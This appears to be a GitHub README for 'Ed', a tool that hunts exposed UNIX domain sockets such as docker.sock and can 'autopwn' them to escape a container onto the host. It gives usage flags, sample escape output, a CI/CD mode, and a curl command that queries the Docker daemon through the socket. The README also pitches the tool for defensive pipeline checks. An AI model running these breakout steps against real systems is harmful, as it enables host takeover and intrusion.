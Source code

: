 # ed
Ed is a tool used to identify and exploit accessible UNIX Domain Sockets

# What does it do?
Ed is a binary to help you find and exploit accessible UNIX domain sockets on a container or host. This is useful for example, hunting Docker.sock when it has been mounted to a non-default location and or not mounted with the default name i.e  "/var/run/Docker.sock". 

# Why ed?
Finding exposed UNIX domain sockets, especially Docker.sock, is very useful ;) Ed can be useful in a DevOps process to ensure that containers do not have any unnecessarily exposed sockets or it can be used to exploit exposed sockets to achieve container breakout. Additionally, Ed can be used in a CI/CD pipeline.

# Usage
Ed can be used to look for plain 'ol UNIX domain sockets, UNIX domain sockets that respond to HTTP requests or UNIX domain sockets that behave like Docker.sock. Ed by default searches from the CWD. To use Ed, get the binary on the host and use the following options:

 ```
  ./ed -h
[+] Hunt 'dem Socks
Usage of ./ed:
    -autopwn
        Attempt to autopwn exposed sockets
  -cicd
        Attempt to autopwn but don't drop to TTY,return exit code 1 if successful else 0
  -docker
        Hunt for docker.sock
  -http
        Hunt for Available UNIX Domain Sockets with HTTP
  -interfaces
        Display available network interfaces
  -json
        Return output in JSON format
  -path string
        Path to Start Scanning for UNIX Domain Sockets (default ".")
  -socket
        Hunt for Available UNIX Domain Sockets (default true)
  -verbose
        Verbose output

```

Example: Autopwn exposed Docker UNIX Domain Socket

```
root@2ae7f389d44c:/app# ./ed -path=/ -autopwn=true
[+] Hunt 'dem Socks
[+] Hunting Down UNIX Domain Sockets from: /
[*] Valid Socket: /tmp/docker.mock
[+] Attempting to autopwn
[+] Hunting Docker Socks
[+] Attempting to Autopwn:  /tmp/docker.mock
[*] Getting Docker client...
[*] Successfully got Docker client...
[+] Attempting to escape to host...
You are now on the underlying host
/ # 
/ # exit
[*] Successfully exited TTY
[+] Finished
```

 Example: Look for exposed Docker.sock
 
 ```
 root@2ae7f389d44c:/app# ./ed -path=/    
[+] Hunt 'dem Socks
[+] Hunting Down UNIX Domain Sockets from: /
[*] Valid Socket: /run/docker.sock
 
 ```
 
 Example: Look for exposed Docker.sock, attempt to pwn it and return an exit code of 1 for your CI\CD test
 
 ```
 root@2ae7f389d44c:/app# ./ed_linux_amd64 -path=/ -cicd=true -autopwn=true
[+] Hunt 'dem Socks
[+] Hunting Down UNIX Domain Sockets from: /
[*] Valid Socket: /run/docker.sock
[+] Attempting to autopwn
[+] Hunting Docker Socks
[+] Attempting to Autopwn:  /run/docker.sock
[*] Getting Docker client...
[*] Successfully got Docker client...
[+] Attempting to escape to host...
[+] Attempting in CICD Mode
[+] Finished
root@d20b953fc52f:/app# echo $?
1
 
 ```
 
 And now that you have found an exposed Docker socket, you could go ahead and issue commands to the Docker daemon using CURL or just issue the -autopwn fag;):
 
 ```
 root@70a7cf3d4f93:/app# curl --unix-socket  /var/run/docker.sock http:/docker/info
 ..l00t
 ```
 
 # Testing
Ed can be tested with Docker, WARNING, mouting Docker.sock into containers is a very bad idea but if you want to test Ed, you can with the following:

```
docker-compose build && docker-compose up
...
worker_1_fd52bdee04ce | [+] Hunt 'dem Socks
worker_1_fd52bdee04ce | [+] Hunting Down UNIX Domain Sockets from: /
worker_1_fd52bdee04ce | [*] Valid Socket: /run/docker.sock
ed_worker_1_fd52bdee04ce exited with code 0

```

# Demo

[![asciicast](https://asciinema.org/a/oUkKmXvOGrT9QVbw8iQlbUxpA.png)](https://asciinema.org/a/oUkKmXvOGrT9QVbw8iQlbUxpA)
 
 # License
 Ed is licensed under a Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International License (http://creativecommons.org/licenses/by-nc-sa/4.0).
